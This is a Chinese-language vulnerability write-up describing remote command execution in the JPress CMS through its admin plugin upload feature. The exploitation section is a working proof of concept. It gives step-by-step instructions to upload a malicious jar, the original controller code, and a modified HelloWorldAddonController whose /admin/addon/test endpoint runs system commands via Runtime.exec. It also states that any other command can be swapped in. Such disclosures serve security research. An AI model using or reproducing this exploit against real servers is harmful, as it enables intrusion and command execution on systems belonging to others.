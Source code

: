 ## JPress-CMS 远程命令执行漏洞

JPress一个使用 Java 开发的、类似 WordPress 的产品，支持多站点、多语种自动切换等。

JPress 是一个使用 Java 开发的、开源免费 的建站神器，灵感来源于 WordPress，目前已经有超过 10w+ 的网站使用 JPress 搭建，其中包括多个政府机构，200+上市公司，中科院、红十字会等。

JPress后台存在可上传系统插件接口，具体以jar包或zip进行上传，Java代码中含有上传插件的测试类，我们可以通构造恶意的jar包并上传至系统服务器上，并通过访问测试类的接口进行触发解析，从而造成远程命令执行。

可通过此漏洞执行服务器系统命令，获取系统信息。

漏洞地址：http://ip:8080/admin/addon/test

代码下载地址：https://gitee.com/JPressProjects/jpress.git

漏洞位置：登录系统后上传插件功能点上。

### 漏洞利用

点击所有插件-安装插件，上传恶意jar包。

<img src="./pic/1.jpg" alt="1" style="zoom:200%;" />

<img src="./pic/2.jpg" alt="1" style="zoom:200%;" />

<img src="./pic/3.jpg" alt="1" style="zoom:200%;" />

原测试test接口的代码如下：

```
package io.jpress.addon.helloworld;

import com.jfinal.core.ActionKey;
import com.jfinal.kit.Ret;
import io.jboot.web.controller.JbootController;
import io.jboot.web.controller.annotation.RequestMapping;
import io.jpress.JPressConsts;
import io.jpress.core.menu.annotation.AdminMenu;


@RequestMapping(value = "/helloworld",viewPath = "/")
public class HelloWorldAddonController extends JbootController {

    public void index() {
        setAttr("version","1.0.2");
        render("helloworld/index.html");
    }

    public void json() {
        renderJson(Ret.ok().set("message", "json ok...."));
    }

    @ActionKey("/admin/addon/test")
    @AdminMenu(groupId = JPressConsts.SYSTEM_MENU_ADDON, text = "插件测试")
    public void adminmenutest() {
        renderText("addon test abc");
    }
}

```

经修改后的test测试接口内容如下，由于我们需要让系统执行此代码，所以我们需要在之前接口信息的基础上修改代码逻辑即可。将此HelloWorldAddonController类打包成jar包并上传。

```
package io.jpress.addon.helloworld;

import com.jfinal.core.ActionKey;
import com.jfinal.kit.Ret;
import io.jboot.web.controller.JbootController;
import io.jboot.web.controller.annotation.RequestMapping;
import io.jpress.JPressConsts;
import io.jpress.core.menu.annotation.AdminMenu;

import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;


@RequestMapping(value = "/helloworld",viewPath = "/")
public class HelloWorldAddonController extends JbootController {

    public void index() {
        setAttr("version","1.0.2");
        render("helloworld/index.html");
    }

    public void json() {
        renderJson(Ret.ok().set("message", "json ok...."));
    }

    @ActionKey("/admin/addon/test")
    @AdminMenu(groupId = JPressConsts.SYSTEM_MENU_ADDON, text = "插件测试")
    public String adminmenutest() {

        Runtime runtime = Runtime.getRuntime();
        StringBuilder sb = new StringBuilder();
        try {
            Process process = runtime.exec("whoami");
            BufferedInputStream inputStream = new BufferedInputStream(process.getInputStream());
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));

            String tmpStr;
            while ((tmpStr = reader.readLine()) != null) {
                sb.append(tmpStr);
            }

            if (process.waitFor() != 0) {
                if (process.exitValue() == 1)
                    return "Command exec failed!!";
            }

            reader.close();
            inputStream.close();
        }catch (Exception e) {
            return e.toString();
        }
        return sb.toString();
    }
}

```

<img src="./pic/4.jpg" alt="1" style="zoom:200%;" />

调用test接口后可发现，上面我们设计的jar包中的`whoami`命令执行成功，返回我本机的当前用户。

<img src="./pic/5.jpg" alt="1" style="zoom:200%;" />

可通过修改执行命令的形式，执行其他命令。